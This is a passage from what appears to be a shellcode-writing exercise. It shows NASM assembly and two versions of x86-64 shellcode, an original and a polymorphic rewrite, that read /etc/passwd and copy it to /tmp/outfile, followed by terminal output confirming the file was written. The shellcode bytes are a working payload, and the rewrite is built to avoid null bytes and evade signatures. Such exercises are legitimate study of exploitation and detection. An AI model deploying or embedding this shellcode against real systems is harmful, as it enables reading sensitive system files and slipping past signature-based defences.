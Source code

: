 ```nasm
        syscall				; exec read

        xchg r13, rax			; save number of bytes read
        mov rbx, rsp			; RBX point to datas read

    ; open("/tmp/outfile", (O_RDWR, O_CREATE..), 07777) 
        xor eax, eax
        push rax			; String terminator
        xchg eax, esi			; RSI set to 0
        mov rax, 0x656c6966
        push rax			; push 'elif'
        mov rax, 0x74756f2f706d742f
        push rax			; push 'tuo/pmt/'
        xor eax, eax
        mov al, 0x66			
        xchg eax, esi			; RSI set to flags
        mov al, 2			; open syscall value
        mov rdi, rsp			; RDI point to "/tmp/outfile"
        syscall				; exec open

    ; write("/tmp/outfile", *buf, count)
        mov edi, eax			; RDI set to fd for /tmp/outfile
        xor eax, eax			
        inc eax				; write syscall number
        lea rsi, [rbx]			; RSI point to data from /etc/passwd
					; stored in the stack
        xchg rdx, r13			; RDX set to number of bytes to write
					; (same as the number of bytes read from /etc/passwd)
        syscall				; exec write
```

Original shellcode :  
\x48\x31\xc0\xb0\x02\x48\x31\xff\xbb**\x73\x77\x64**\x00\x53\x48\xbb**\x2f\x65\x74**
**\x63\x2f\x70\x61**\x73\x53\x48\x8d\x3c\x24\x48\x31\xf6\x0f\x05\x48\x89\xc3\x48
\x31\xc0\x48\x89\xdf\x48\x89\xe6\x66\xba\xff\xff\x0f\x05\x49\x89\xc0\x48\x89
\xe0\x48\x31\xdb\x53\xbb**\x66\x69\x6c\x65\x53\x48\xbb\x2f\x74\x6d\x70\x2f\x6f**
**\x75\x74**\x53\x48\x89\xc3\x48\x31\xc0\xb0\x02\x48\x8d\x3c\x24\x48\x31\xf6\x6a
\x66\x66\x5e\x0f\x05\x48\x89\xc7\x48\x31\xc0\xb0\x01\x48\x8d\x33\x48\x31\xd2\x4c
\x89\xc2\x0f\x05

The new shellcode :  
\x31\xf6\xf7\xe6\x50\xb9**\x73\x73\x77\x64**\x51\x48\xb9**\x2f\x65\x74\x63\x2f\x2f**
**\x70\x61**\x51\x48\x89\xe7\xb0\x02\x0f\x05\x48\x87\xf7\x97\x89\xd0\x66\x83\xca
\xff\x0f\x05\x49\x95\x48\x89\xe3\x31\xc0\x50\x96\xb8**\x66\x69\x6c\x65\x50\x48**
**\xb8\x2f\x74\x6d\x70\x2f\x6f\x75\x74**\x50\x31\xc0\xb0\x66\x96\xb0\x02\x48\x89
\xe7\x0f\x05\x89\xc7\x31\xc0\xff\xc0\x48\x8d\x33\x49\x87\xd5\x0f\x05

Final size -25 bytes, null bytes free and we retrieve only the strings and the syscall opcodes.

```plaintext
skrox@kali:~$ ls -l /tmp/outfile
ls: impossible d'accéder à '/tmp/outfile': Aucun fichier ou dossier de ce type
skrox@kali:~$ ./read-poly 
len: 93 bytes
Erreur de segmentation
skrox@kali:~$ ls -l /tmp/outfile
-rwxr-xr-t 1 skrox skrox 2078 juin   7 01:11 /tmp/outfile

```
